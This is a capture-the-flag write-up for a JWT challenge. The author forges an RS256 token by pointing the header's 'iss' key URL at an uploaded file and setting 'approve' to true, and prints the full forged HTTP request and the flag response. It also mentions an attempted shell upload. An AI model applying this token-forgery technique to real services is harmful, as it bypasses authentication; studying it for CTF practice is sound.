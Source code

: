 ## JWT Token

Address: http://172.104.49.143:1574/

Sign in with username `admin`

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450231-a8541ebb-04b1-4385-9f3c-940cc067e9cb.png" width="50%" align="center">
</p>

And also upload file...

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450277-04df90a0-2892-4796-8519-bf050d271189.png" width="50%">
</p>

Go back to `/` there are some uploaded files which directories have form `website/uploads/<username>/<filename>`

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450313-52fc3f5b-ae2e-4e0d-8152-85de4d99a103.png" width="50%">
</p>

So.. maybe up shell and marked `hacked by tronghieu220403` but it didn't work 

Let's check `Proxy history` and see `getflag.js`

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450418-6423eabe-25d7-4946-a5ad-feedd95d045b.png" width="50%">
</p>

This Javascript code:
```Javascript
function getFiles(){
    var xhr = new XMLHttpRequest();
    xhr.open("GET", "getflag", true);
    xhr.onload = function() {
        if (xhr.status === 200) {
            var flag = xhr.responseText.split("\n");
            var html = "";
            if (flag.length > 0) {
                    html += "<li>" + flag + "</li>";
                }
            document.getElementById("flag").innerHTML = html;
        } else {
            alert("Error: " + xhr.status);
        }
    }
    xhr.send();
}
```

Checking `./getflag`

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450478-3f939786-770a-4554-a11e-badb6f104b1b.png" width="50%">
</p>

Get cookie on request
```http
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImlzcyI6Imh0dHA6Ly9sb2NhbGhvc3Q6NTAwMC9zdGF0aWMva2V5cy5wdWIifQ.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZSI6ZmFsc2V9.KnO6VyVQ12jQ1uSJ8DmbxHDjMWi1-qkwx_EoVGmcpVJaP8E5g_YSl5t30Ij6cQQVFlfjMjJB0OFWm3rJtGcxvzcqgHRBZcPEPnoSPVgtq7GEa9VtsyjRYSMl7oUeiOJrnC0PifPt8KeAZRO43ZNnARULOxGH2Ntmqx6I7is4nPY1rkuz09_FxNMgiZ07gx8CBkKs7F8tNTqsIIWgEXVNFxB9QNlUokoxLjbr85muEz48-rpzqL74sKYA_pvhiwh7IoCRVg5WWrXUTEUIiA-tpX6q-CaImSSUtYL7CEw17O22hEggLwNrXBsJ17ApyaYkbU99ucB9HfMFqwdCBxudUBMagJihGLQe2w3wj_HJiYliIjdAk88l270Yjtm42OoeVW6Pf2XSR-d3ygjvNjjyxv2mBt6_443vx9nPTZ8TjA28mxGvRTs1nRHHmvDDpOLGT5WW6yApvRGoulFEsvrQdmKxPW3udGAy-xfVOjkWe_b7OaY2O4sFLKklR23Dz37H
```

Decode this Token by using [JWT Tool](https://token.dev)

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193450654-e6e9ca57-a3fe-43f1-9dd9-101e5893d829.png" width="100%">
</p>

We hope to change value of `approve` to `True`, but it is simultaneously verified with RS256 

**Exploit:** We can tamper the Public key by changing `iss` value

<p align="center">
<img src = "https://user-images.githubusercontent.com/93431512/193451020-685bb621-4436-49d6-aab1-322c18dc6db5.png" width="100%">
</p>

Now we have new token

```http
GET /getflag HTTP/1.1
Host: 172.104.49.143:1574
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5249.62 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: token=eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiIsImlzcyI6Imh0dHA6Ly9sb2NhbGhvc3Q6NTAwMC91cGxvYWRzL2FkbWluL2hpaGkudHh0In0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXBwcm92ZSI6dHJ1ZX0.2y8teT0Yu5YlRuencanFDXbmvDkdbfgZVbtsfzCRlcBZSPtMNN0Y8dmR5yumoYPrR5SJbyDE454Sewai_nW_q7FYm0a-hrW4GdxcWvnFYNkNq-58_1NJ6XKjGUZiT89lNpMKevvYvbcEiO1fspg_10Pu9_T7PBsRw2KeXC_Vl1TuNSL5xKzdFiLxRdKdOr33QkoWqe0k4S_rp6jcbXlz2AMITcDDT5E8nWzvkPSycSke6klJGyN2Mf1H7CPzTN96d90m3fhbzKkf5a82jPo4R1IGth2b0fFLTMhCRHmhmX5k3gRswWkwZvLxiRmGy6Svtras6ldRWDMzIrhADujY1Q
Connection: close
```

```http
HTTP/1.1 200 OK
Server: Werkzeug/2.2.2 Python/3.10.5
Date: Sun, 02 Oct 2022 11:12:31 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 44
Connection: close

FLAG: Flag{JWT_token_is_the_best_token_ever}
```
